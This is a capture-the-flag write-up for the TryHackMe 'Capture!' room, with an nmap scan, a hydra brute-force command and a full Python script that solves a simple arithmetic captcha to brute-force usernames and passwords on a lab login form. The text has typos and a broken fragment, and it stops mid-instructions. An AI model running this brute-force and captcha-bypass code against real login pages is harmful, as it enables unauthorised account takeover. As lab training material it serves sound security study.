 # <div align="center">[Capture!](https://tryhackme.com/r/room/capture)</div>


<div align="center">
  <img src="https://github.com/user-attachments/assets/b80bf4c0-f7c0-4d57-9365-cfec6de6020a" height="200"></img>
</div>

# Task 1. Download the file.
# Tast 2. Bypass the login form
## What is the value of flag.txt?
```

```
## Let make a Nmap scan
```
death@esther:~$ nmap 10.10.236.203 -sV 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-02 06:37 IST
Nmap scan report for 10.10.236.203
Host is up (0.15s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Werkzeug/2.2.2 Python/3.8.10
```
## Let en=

## As we have both user and pass file let try to brute force login page using hydra.
```
sudo hydra -L usernames.txt -P passwords.txt 10.10.236.203 http-post-form "/login:username=^USER^&password=^PASS^:Error" -V -t 40
```

## Hydra didnt find anything,but when i try to login just to check it return me an error

![image](https://github.com/user-attachments/assets/0ae972ca-ff87-4f06-bbd0-4d1b34b97989)

* ### Too many bad login attempts!
* ### Captcha enabled
* ### Error: Invalid captcha

## We need to buypass captcha by creating own python script . it took help of [This script](https://github.com/sakibulalikhan/thm-capture/blob/main/capture.py)

```

#! /bin/python3

import requests
import argparse

def solveCaptcha(captcha):
    if captcha[1] == '+':
        ans = int(captcha[0]) + int(captcha[2])
    elif captcha[1] == '-':
        ans = int(captcha[0]) - int(captcha[2])
    elif captcha[1] == '*':
        ans = int(captcha[0]) * int(captcha[2])
    elif captcha[1] == '/':
        ans = int(captcha[0]) / int(captcha[2])
    return ans

def crackUsername(url, captcha):
    print('[+] Starting username brute force...\n')
    f = open('./usernames.txt', 'r')
    for i in f:
        ans = solveCaptcha(captcha)
        myData = f'username={i.strip()}&password=letmein&captcha={ans}'
        sReq = requests.post(url, data=myData, headers={'Content-Type': 'application/x-www-form-urlencoded'})
        sReq = sReq.text.split('\n')
        if 'does not exist' not in sReq[104]:
            print(f'!!! Username Found: {i.strip()}\n')
            crackPassword(i.strip(), captcha)
        else:
            captcha = sReq[96].split()

def crackPassword(uName, captcha):
    print('[+] Starting password brute force...\n')
    f = open('./passwords.txt', 'r')
    for i in f:
        ans = solveCaptcha(captcha)
        myData = f'username={uName}&password={i.strip()}&captcha={ans}'
        sReq = requests.post(url, data=myData, headers={'Content-Type': 'application/x-www-form-urlencoded'})
        if len(sReq.text) < 100:
            print(f'!!! Password Found: {i.strip()}\n')
            print(f'!!! Flag: {sReq.text.split()[1][4:-5]}')
            quit()
        else:
            sReq = sReq.text.split('\n')
            captcha = sReq[96].split()

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description='Brute force username and password with captcha.')
    parser.add_argument('--host', '-t', type=str, help='Target host URL')
    args = parser.parse_args()

    if args.host:
        url = f'http://{args.host}/login'
        print(f'[+] Starting bruteforce with target URL: {url}\n')
        
        for i in range(0, 10):
            myData = 'username=admin&password=letmein'
            sReq = requests.post(url, data=myData, headers={'Content-Type': 'application/x-www-form-urlencoded'})
            sReq = sReq.text.split('\n')
            captcha = sReq[96].split()

        crackUsername(url, captcha)
    else:
        print("Error: You have to specify the target host using the --host or -t flag.")
        print("Usage: ./script.py --host $IP")
             
```
## Save this in a file and name somthing with .py extention.
### Install the requirments
